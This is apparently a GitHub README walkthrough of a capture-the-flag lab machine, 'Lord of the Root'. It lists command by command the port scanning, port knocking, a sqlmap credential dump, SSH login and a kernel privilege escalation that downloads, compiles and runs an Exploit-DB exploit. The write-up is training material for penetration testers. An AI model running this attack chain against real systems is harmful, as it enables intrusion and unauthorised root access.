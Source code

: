 # LORD OF THE ROOT 🚀  

**"One does not simply walk into Mordor" – but today, we did.**  

This repository documents a complete penetration testing journey, filled with strategic reconnaissance, precise exploitation, and creative privilege escalation. Created in collaboration by **Osama, A.Essam, Ammar**, and team, this project reflects the team's ingenuity and persistence in the pursuit of root access.  

> **“There is only one Lord of the Ring, only one who can bend it to his will. And he does not share power.”**  
> – Gandalf  

---  

## 📖 Table of Contents  

- [About the Project](#about-the-project)  
- [Introduction](#introduction)  
- [Reconnaissance](#reconnaissance)  
  - [Identifying the Target](#identifying-the-target)  
  - [Port Knocking](#port-knocking)  
  - [Decoding Hidden Clues](#decoding-hidden-clues)  
- [Exploitation](#exploitation)  
  - [SQL Injection](#sql-injection)  
  - [Gaining Access](#gaining-access)  
- [Privilege Escalation](#privilege-escalation)  
- [The Final Flag](#the-final-flag)  
- [Lessons Learned](#lessons-learned)  
- [Acknowledgments](#acknowledgments)  

---  

## 💡 About the Project  

**LORD OF THE ROOT** is a simulated penetration testing exercise that showcases critical cybersecurity skills, including network discovery, vulnerability exploitation, and privilege escalation.  

This project is a testament to teamwork, persistence, and creative problem-solving in the field of cybersecurity.  

---

## 🔍 Introduction  

The journey begins with a challenge: break into the target machine, navigate its defenses, escalate privileges, and retrieve the coveted root flag.  

By employing methodical reconnaissance, identifying vulnerabilities, and crafting exploits, the team successfully navigates through the security layers of the system.  

---

## 🎯 Reconnaissance  

### Identifying the Target  

1. **Discovering the IP Address**  
   - Tool: `netdiscover`  
   - Result: Target's IP identified as **192.168.1.35**.  

2. **Initial Nmap Scan**  
   - Command:  
     ```bash
     nmap -sS -p- -Pn 192.168.1.35
     ```  
   - Outcome: Only **SSH (Port 22)** was open.  

### Port Knocking  

To uncover hidden ports, we used `knockit`:  
```bash
python Knockit.py 192.168.1.35 1 2 3
```  

- A new port **1337** was revealed.  

### Decoding Hidden Clues  

Examining the new service, we discovered Base64-encoded strings in the source code. These clues led us to potential endpoints:  

1. **First clue:**  
   ```bash
   hURL -b THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh
   ```  

2. **Second clue:**  
   ```bash
   hURL -b Lzk3ODM0NTIxMC9pbmRleC5waHA=
   ```  

---

## 💻 Exploitation  

### SQL Injection  

After identifying vulnerable endpoints, we captured an HTTP request into `MEDO.req` for further analysis:  
```plaintext
POST /978345210/index.php HTTP/1.1  
Host: 192.168.1.35:1337  
...
username=admin&password=password&submit=Login
```  

- Used **SQLMap** to exploit the injection point and extract database information:  
  ```bash
  sqlmap -r MEDO.req --dbs --dump --flush-session --batch --level=5
  ```  

### Gaining Access  

Using the credentials retrieved via SQLMap, we logged into the system as `smeagol`:  
```bash
ssh smeagol@192.168.1.35
```  

**We’re in!**  

---

## 🔑 Privilege Escalation  

1. **Kernel Version Check**  
   - Identified the kernel version to search for a compatible exploit.  

2. **Finding the Exploit**  
   - Located a privilege escalation exploit on **Exploit-DB**.  

3. **Compiling and Executing the Exploit**  
   - Commands:  
     ```bash
     wget https://www.exploit-db.com/download/39166
     gcc 39166.c -o medo
     ./medo
     ```  

**Root access achieved!**  

---

## 🏆 The Final Flag  

Navigated to the root directory:  
```bash
cd /root  
cat Flag.txt  
```  

**Flag Content:**  
> “There is only one Lord of the Ring, only one who can bend it to his will. And he does not share power.”  

---

## 📘 Lessons Learned  

1. **Reconnaissance**  
   - Tools like `netdiscover` and `nmap` are invaluable for identifying network details.  

2. **Exploitation**  
   - SQL injection remains a critical vulnerability and emphasizes the importance of secure coding practices.  

3. **Privilege Escalation**  
   - Kernel exploits demonstrate the need for regular system updates and patches.  

---

## 🙏 Acknowledgments  

This project is a collaborative effort by **Osama, A.Essam, Ammar**, and team. Together, we tackled challenges, explored vulnerabilities, and achieved our goals.  

> **Let’s hack the planet! 🚀**  

